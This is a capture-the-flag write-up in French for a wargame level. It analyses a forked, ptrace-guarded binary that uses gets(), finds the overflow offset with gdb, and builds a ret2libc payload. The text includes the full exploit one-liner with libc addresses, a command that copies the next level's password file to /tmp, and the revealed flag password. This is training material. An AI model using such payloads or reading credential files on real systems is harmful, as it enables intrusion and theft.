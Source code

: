 # Level04

## Analyse

- Nous avons un programme avec une fonction main qui utilise la fonction fork() pour creer un processus enfant.

### Parent

- Le processus parent wait() le fils et le surveille avec ptrace().

- Le parent bloque l'utilisation de execve() dans l'enfant. Donc bloque l'utilisation de shellcode ou un execve est execute pour lancer un "/bin/sh". La comparaison de retour de la fonction ptrace() avec 11 est la pour bloquer les appels system a exec() car 11 est le numero du syscall a exec().

### Enfant

- prctl permet de configurer le signal envoye au processus si son parent meurt. SIGTERM est donc le signal qui sera envoye.

- ptrace() indique que ce processus doit etre trace par son parent, permet donc de surveiller et controler l'execution de l'enfant

- Le processus enfant utilise gets() qui est vulnerable aux buffer overflow. Le buffer alloue sur la stack est de 128 bytes.

## Exploitation

- On connait l'utilisation d'exploit comme le ret2libc qui permet de rediriger le flux d'execution vers un system("/bin/sh") et qui contourne la protection du exec().

- On peut trouver l'offset de la modification du saved eip de la fonction en envoyant un buffer overflow pattern. La particularite ici est qu'il n'y aura pas de segmentation fault car le parent wait(1) et le process run a l'infini. Il existe une option sur gdb pour suivre l'execution du fils : set follow-fork-mode child. En activant cette option on arrive a voir le segmentation fault et obtenir l'offset.

```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 2252]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2252]
0x41326641 in ?? ()
```

- L'offset est de 156.

## Payload

- Il nous faut maintenant constituer notre payload, pour cela il nous faut l'adresse de system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc mappings 
process 2253
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

- On a maintenant toutes les informations pour constituer notre payload 
: 
```
    system: 0xf7e6aed0
    exit: 0xf7e5eb70
    /bin/sh: 0xf7f897ec
```

### Commande

```
(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

- Pour obtenir le flag il faut effectuer une redirection vers un fichier pour pouvoir lire la sortie.

```
cat /home/users/level05/.pass > /tmp/flag

cat /tmp/flag
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```